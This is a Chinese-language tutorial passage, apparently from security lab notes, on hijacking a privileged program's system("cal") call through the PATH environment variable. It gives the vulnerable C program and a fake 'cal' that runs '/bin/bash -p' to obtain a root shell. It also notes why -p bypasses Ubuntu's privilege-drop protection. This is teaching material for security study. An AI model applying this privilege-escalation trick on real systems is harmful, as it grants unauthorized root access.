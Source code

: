 # 攻击外部程序

!!! PATH环境变量影响shell程序

    影响shell程序行为方式有多种，最常见的就是PATH环境变量。如果一个程序没有提供命令的
    具体位置，shell将使用PATH环境变量来搜索命令。
   
```c
#include <stdlib.h>

int main()
{
    system("cal");
}
```

![正常运行有安全隐患的程序](../img/env-program.png)
运行一个有安全隐患的程序，正常打印出日历

```c
#include <stdlib.h>

int main()
{
    system("/bin/bash -p");
}
```
![hacker有问题的程序](../img/env-hackerprogram.png)
通过改变环境变量，当运行vul程序时，先找到当前目录下的cal程序，就得到了一个
有root权限的shell

!!! Note

    ubuntu 16.04以上版本，有保护机制，特权程序运行时会忽略自己提供的环境变量，
    故使用-p选项，告诉bash不要使用保护机制

